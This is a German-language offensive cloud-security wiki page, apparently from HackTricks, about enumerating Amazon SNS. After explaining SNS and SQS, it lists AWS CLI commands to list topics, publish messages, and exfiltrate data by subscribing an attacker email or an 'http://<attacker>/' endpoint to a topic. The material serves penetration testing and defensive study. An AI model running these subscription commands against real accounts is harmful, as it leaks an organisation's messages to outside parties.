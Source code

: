 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS) wird als **vollständig verwalteter Messaging-Dienst** beschrieben. Er unterstützt sowohl **Anwendung-zu-Anwendung** (A2A) als auch **Anwendung-zu-Person** (A2P) Kommunikationsarten.

Wichtige Funktionen für A2A-Kommunikation umfassen **Publish/Subscribe (pub/sub) Mechanismen**. Diese Mechanismen führen **Themen** ein, die entscheidend sind, um hochgradige, **push-basierte, viele-zu-viele Messaging** zu ermöglichen. Diese Funktion ist besonders vorteilhaft in Szenarien, die verteilte Systeme, Microservices und ereignisgesteuerte serverlose Architekturen umfassen. Durch die Nutzung dieser Themen können Publizierungssysteme Nachrichten effizient an eine **breite Palette von Abonnentensystemen** verteilen, was ein Fanout-Messaging-Muster erleichtert.

### **Unterschied zu SQS**

**SQS** ist ein **warteschlangenbasierter** Dienst, der Punkt-zu-Punkt-Kommunikation ermöglicht und sicherstellt, dass Nachrichten von einem **einzelnen Verbraucher** verarbeitet werden. Er bietet **mindestens einmalige Zustellung**, unterstützt Standard- und FIFO-Warteschlangen und ermöglicht die Nachrichtenaufbewahrung für Wiederholungen und verzögerte Verarbeitung.\
Im Gegensatz dazu ist **SNS** ein **Publish/Subscribe-basierter Dienst**, der **eins-zu-viele** Kommunikation ermöglicht, indem Nachrichten gleichzeitig an **mehrere Abonnenten** gesendet werden. Er unterstützt **verschiedene Abonnementendpunkte wie E-Mail, SMS, Lambda-Funktionen und HTTP/HTTPS** und bietet Filtermechanismen für gezielte Nachrichtenübermittlung.\
Während beide Dienste die Entkopplung zwischen Komponenten in verteilten Systemen ermöglichen, konzentriert sich SQS auf warteschlangenbasierte Kommunikation, während SNS ereignisgesteuerte, Fan-out-Kommunikationsmuster betont.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> Beachten Sie, dass wenn das **Thema vom Typ FIFO** ist, nur Abonnenten, die das Protokoll **SQS** verwenden, genutzt werden können (HTTP oder HTTPS können nicht verwendet werden).
>
> Stellen Sie außerdem sicher, dass Sie die richtige Region in **`--region`** angeben, auch wenn die `--topic-arn` die Region enthält, da Sie sonst einen Fehler erhalten, der darauf hinweist, dass Sie keinen Zugriff haben, aber das Problem die Region ist.

#### Unauthenticated Access

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum/README.md
{{#endref}}

#### Privilege Escalation

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc/README.md
{{#endref}}

#### Post Exploitation

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation/README.md
{{#endref}}

#### Persistence

{{#ref}}
../aws-persistence/aws-sns-persistence/README.md
{{#endref}}

## References

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
